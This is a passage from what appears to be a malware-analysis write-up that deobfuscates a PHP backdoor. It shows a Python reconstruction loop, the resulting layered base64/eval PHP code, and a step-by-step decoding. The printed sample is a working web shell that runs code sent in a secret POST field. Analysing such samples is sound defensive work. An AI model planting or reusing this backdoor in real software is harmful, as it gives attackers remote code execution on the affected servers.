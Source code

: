 order= [59, 71, 73, 13, 35, 10, 20, 81, 76, 10, 28, 63, 12, 1, 28, 11, 76, 68, 50, 30, 11, 24, 7, 63, 45, 20, 23, 68, 87, 42, 24, 60, 87, 63, 18, 58, 87, 63, 18, 58, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 17, 37, 63, 58, 37, 91, 63, 83, 43, 87, 42, 24, 60, 87, 93, 18, 87, 66, 28, 48, 19, 66, 63, 50, 37, 91, 63, 17, 1, 87, 93, 18, 45, 66, 28, 48, 19, 40, 11, 25, 5, 70, 63, 7, 37, 91, 63, 12, 1, 87, 93, 18, 81, 37, 28, 48, 19, 12, 63, 25, 37, 91, 63, 83, 63, 87, 93, 18, 87, 23, 28, 18, 75, 49, 28, 48, 19, 49, 0, 50, 37, 91, 63, 18, 50, 87, 42, 18, 90, 87, 93, 18, 81, 40, 28, 48, 19, 40, 11, 7, 5, 70, 63, 7, 37, 91, 63, 12, 68, 87, 93, 18, 81, 7, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 18, 17, 37, 0, 50, 5, 40, 42, 50, 5, 49, 42, 25, 5, 91, 63, 50, 5, 70, 42, 25, 37, 91, 63, 75, 1, 87, 93, 18, 1, 17, 80, 58, 66, 3, 86, 27, 88, 77, 80, 38, 25, 40, 81, 20, 5, 76, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 7, 88, 32, 45, 7, 90, 52, 80, 58, 5, 70, 63, 7, 5, 66, 42, 25, 37, 91, 0, 12, 50, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 48, 19, 7, 63, 50, 5, 37, 0, 24, 1, 87, 0, 24, 72, 66, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 1, 87, 93, 18, 11, 66, 28, 18, 87, 70, 28, 48, 19, 7, 63, 50, 5, 37, 0, 18, 1, 87, 42, 24, 60, 87, 0, 24, 17, 91, 28, 18, 75, 49, 28, 18, 45, 12, 28, 48, 19, 40, 0, 7, 5, 37, 0, 24, 90, 87, 93, 18, 81, 37, 28, 48, 19, 49, 0, 50, 5, 40, 63, 25, 5, 91, 63, 50, 5, 37, 0, 18, 68, 87, 93, 18, 1, 18, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 90, 87, 0, 24, 72, 37, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 48, 19, 40, 90, 25, 37, 91, 63, 18, 90, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 75, 70, 28, 48, 19, 40, 90, 58, 37, 91, 63, 75, 11, 79, 28, 27, 75, 3, 42, 23, 88, 30, 35, 47, 59, 71, 71, 73, 35, 68, 38, 63, 8, 1, 38, 45, 30, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 23, 75, 77, 1, 28, 1, 43, 52, 31, 19, 75, 81, 40, 30, 75, 1, 27, 75, 77, 35, 47, 59, 71, 71, 71, 73, 21, 4, 37, 51, 40, 4, 7, 91, 7, 4, 37, 77, 49, 4, 7, 91, 70, 4, 37, 49, 51, 4, 51, 91, 4, 37, 70, 6, 4, 7, 91, 91, 4, 37, 51, 70, 4, 7, 91, 49, 4, 37, 51, 6, 4, 7, 91, 91, 4, 37, 51, 70, 21, 47, 93, 8, 10, 58, 82, 59, 71, 71, 71, 82, 59, 71, 71, 29, 29, 47]

do_me = ""
for i in range(0,len(order)):
    do_me += terms[order[i]]

print do_me
{{< /codecaption >}}

Produces the following PHP code:
{{< codecaption lang="php" title="PHP code" >}}
$_= 'aWYoaXNzZXQoJF9QT1NUWyJcOTdcNDlcNDlcNjhceDRGXDg0XDExNlx4NjhcOTdceDc0XHg0NFx4NEZceDU0XHg2QVw5N1x4NzZceDYxXHgzNVx4NjNceDcyXDk3XHg3MFx4NDFcODRceDY2XHg2Q1w5N1x4NzJceDY1XHg0NFw2NVx4NTNcNzJcMTExXDExMFw2OFw3OVw4NFw5OVx4NkZceDZEIl0pKSB7IGV2YWwoYmFzZTY0X2RlY29kZSgkX1BPU1RbIlw5N1w0OVx4MzFcNjhceDRGXHg1NFwxMTZcMTA0XHg2MVwxMTZceDQ0XDc5XHg1NFwxMDZcOTdcMTE4XDk3XDUzXHg2M1wxMTRceDYxXHg3MFw2NVw4NFwxMDJceDZDXHg2MVwxMTRcMTAxXHg0NFw2NVx4NTNcNzJcMTExXHg2RVx4NDRceDRGXDg0XDk5XHg2Rlx4NkQiXSkpOyB9';
$__='JGNvZGU9YmFzZTY0X2RlY29kZSgkXyk7ZXZhbCgkY29kZSk7';
$___="\x62\141\x73\145\x36\64\x5f\144\x65\143\x6f\144\x65"; // base64_decode
eval($___($__));
{{< /codecaption >}}

Contents of ``$_`` and ``$__`` are clearly encoded in ``base64`` and  ``$___`` is ``base64_decode``. Base64 can be decoded in Python by calling ``base64.b64decode``.
Line #4 can be re-written as 

{{< codecaption lang="php" title="Line 4" >}}

eval(base64_decode('JGNvZGU9YmFzZTY0X2RlY29kZSgkXyk7ZXZhbCgkY29kZSk7'));

// result

$code=base64_decode($_);    eval($code);
